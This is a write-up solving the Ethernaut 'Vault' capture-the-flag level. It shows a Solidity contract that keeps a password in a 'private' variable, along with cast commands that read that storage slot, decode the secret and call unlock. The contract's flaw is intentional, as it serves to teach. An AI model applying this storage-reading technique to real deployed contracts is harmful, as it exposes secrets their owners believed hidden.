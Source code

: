 ```yaml
---
title: Ethernaut - Vault - Solution
date: '2024-05-06'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Ethernaut - Vault CTF
---
```


# Ethernaut - Vault - Solution

## Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```

## Exploit

The goal of this level is to unlock the vault by providing the correct password.

First, recall that while marking a variable as `private` prevents other contracts from accessing it, it does not mean that the value of this variable is not publicly accessible.
In fact, we can easily inspect `password` by accessing the storage slot with index 1 (index 0 stores the `locked` state) using [Cast](https://book.getfoundry.sh/cast/):

```bash
cast storage --rpc-url=<your rpc url> <your level instance address> 1
```

This tells us that the correct password is `0x412076657279207374726f6e67207365637265742070617373776f7264203a29`.

_**Note** For the fun of it, we can  convert this from `bytes32` to ASCII via:_

```bash
# Returns "A very strong secret password :)"
cast --to-ascii 0x412076657279207374726f6e67207365637265742070617373776f7264203a29
```

To complete the level, we can simply call the unlock function using the above password as the function parameter:

```bash
cast send <your level instance address> "unlock(bytes32)" "0x412076657279207374726f6e67207365637265742070617373776f7264203a29" --private-key <your private key> --rpc-url <your rpc url> --gas-price <a sufficiently high gas price>
```

_**Note** You can check the current gas price via:_

```bash
cast gas-price --rpc-url <your rpc url>
```